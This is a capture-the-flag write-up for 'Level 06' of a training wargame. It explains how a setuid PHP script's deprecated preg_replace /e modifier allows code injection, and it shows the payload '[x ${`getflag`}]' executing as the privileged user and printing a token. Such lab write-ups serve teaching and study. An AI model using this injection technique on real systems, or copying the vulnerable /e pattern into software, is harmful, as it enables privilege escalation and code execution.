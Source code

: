 # LEVEL 06
In our home directory, we have an executable with suid, and a php script allowing us to know what the executable does:
        >$ ls -la
        -rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
        -rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

        >$ cat level06.php
                #!/usr/bin/php
                <?php
                function y($m) {
                    $m = preg_replace("/\./", " x ", $m);
                    $m = preg_replace("/@/", " y", $m);
                    return $m;
                    }
                function x($y, $z) {
                    $a = file_get_contents($y);
                    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
                    $a = preg_replace("/\[/", "(", $a);
                    $a = preg_replace("/\]/", ")", $a); return $a;
                }
                $r = x($argv[1], $argv[2]); print $r;
                ?>

In the second function called by the script, we see the use of a regex with /e modifier, 
and this modifier is depecrated in recent php regex flags, 
so if it is set, preg_replace() does normal substitution of backreferences in the replacement string, 
evaluates it as PHP code, and uses the result for replacing the search string, 
so it can easily introduce remote code execution vulnerabilities.

so we can exploit this by passing our own code, which will be evaluated as PHP code and executed as user flag06.

our argument should pass the regex test `"/(\[x (.*)\])/e"`, and respect the form `[x <our PHP code>]`:
        >$ echo '[x ${`getflag`}]' > /tmp/getflag
        >$ cat /tmp/getflag
        [x ${`getflag`}]

When we run the executable, passing our file as argument:
        >$ ./level06 /tmp/getflag
        PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
        in /home/user/level06/level06.php(4) : regexp code on line 1

Vulnerability:
Deprecated /e regex modifier in script owned by privileged user -> Privilege escalation via PHP code injection.

Documentations:
* https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php
* https://www.php.net/manual/en/language.types.string.php#language.types.string.syntax.nowdoc
* https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier